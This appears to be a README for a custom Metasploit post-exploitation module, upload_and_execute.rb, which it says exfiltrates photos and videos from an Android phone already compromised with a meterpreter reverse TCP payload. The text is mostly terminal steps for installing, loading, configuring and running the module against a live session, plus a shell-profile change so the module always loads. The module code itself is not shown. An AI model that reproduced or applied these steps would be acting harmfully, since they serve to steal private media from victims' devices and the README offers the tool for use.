 # upload_and_execute
this file is made for use with msfconsole for post exploitation<br>
this exploitation is used for android photos and videos exfiltration<br>
after exploiting android with android/meterpreter/reverse_tcp<br>
go to ~/.msf4/modules/post/ <br>
/or/ /usr/share/metasploit-framework/modules/post/<br>
If the post/ directory doesn’t exist inside ~/.msf4/modules/, create it:<br>

mkdir -p ~/.msf4/modules/post/custom<br>#terminal

then copy upload_and_execute.rb inside custom file<br>

After saving the script, reload Metasploit to detect the new module:<br>

msfconsole -q -x "reload_all" #terminal<br>

Alternatively, start msfconsole and manually reload:<br>

msfconsole        #terminal <br>
msf6 > reload_all<br>  #terminal<br>

 ****** Use the Custom Module ****** | <br>

Inside msfconsole, search for your custom post module:<br>

msf6 > search custom  #terminal<br>

Then, load and use it:<br>

msf6 > use post/custom/upload_and_execute.rb    #terminal<br>
msf6 post(custom/upload_and_execute.rb) > show options   #terminal <br>

Set the session ID:<br>

msf6 post(custom/upload_and_execute.rb) > set SESSION 1  #terminal<br>

Run the exploit:<br>

msf6 post(custom/upload_and_execute.rb) > run<br>

******(Optional) Persisting Custom Modules******<br>

If you want Metasploit to always load custom modules from ~/.msf4/modules/, add this line to your .bashrc or .zshrc:<br>

export MSF_MODULE_PATH=~/.msf4/modules #terminal  <br>

Then reload your shell:<br>

source ~/.bashrc  # or source ~/.zshrc   #terminal <br> 

